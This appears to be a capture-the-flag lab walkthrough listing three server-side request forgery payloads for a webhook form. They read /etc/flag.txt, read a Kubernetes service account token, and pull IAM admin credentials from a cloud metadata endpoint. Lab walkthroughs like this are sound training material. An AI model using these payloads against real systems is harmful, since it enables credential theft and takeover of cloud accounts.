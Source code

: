 # How to get the flags

## Flag 1 - How to access the /etc/flag.txt
Simply run `file:///etc/flag.txt` in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag1.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 2 - Raid the kubernetes ServiceAccountToken
Run `file:///var/run/secrets/kubernetes.io/serviceaccount/token`in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag2.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 3 - Hijack the AWS Account by absuing the EC2 Metadata Service
Run `localhost:1338/latest/meta-data/iam/security-credentials/fulladministrator-role`
<p align="center">
<img width="600" src="/exploit/flag3.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>